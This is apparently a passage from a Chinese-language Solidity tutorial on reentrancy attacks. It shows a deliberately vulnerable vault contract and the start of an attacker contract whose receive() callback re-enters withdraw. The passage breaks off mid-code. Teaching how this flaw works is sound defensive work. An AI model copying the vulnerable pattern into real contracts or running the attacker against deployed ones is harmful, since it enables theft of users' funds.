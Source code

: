 ```solidity
        require(msg.sender == owner, "Not owner");
        (bool success, ) = payable(owner).call{value: address(this).balance}("");
        require(success, "Withdraw failed");
    }

    function getBalance() external view returns (uint) {
        return address(this).balance;
    }
}
```

---

## ⚠️ 6. 重入攻击（Reentrancy Attack）

### 🐞 什么是重入攻击？

当合约调用外部地址（如 `call` 转账）时，如果该地址是一个合约，它可以在未完成前一次调用前，**反复调用回原合约的函数**，造成重复提现等安全问题。
### 🎬 攻击演示：易受攻击的合约

```solidity
// VulnerableVault.sol
contract VulnerableVault {
    mapping(address => uint) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        require(balances[msg.sender] > 0, "No balance");

        // 发送 ETH（外部调用，容易被攻击者重入）
        (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(success, "Transfer failed");

        // 更新余额（放在调用后，导致漏洞）
        balances[msg.sender] = 0;
    }
}

```


---

### 🧨 攻击者合约

```solidity
// Attacker.sol
contract Attacker {
    VulnerableVault public target;

    constructor(address _target) {
        target = VulnerableVault(_target);
    }

    // 回调函数，趁机再次提取
    receive() external payable {
        if (address(target).balance > 1 ether) {
            target.withdraw();
        }
    }

```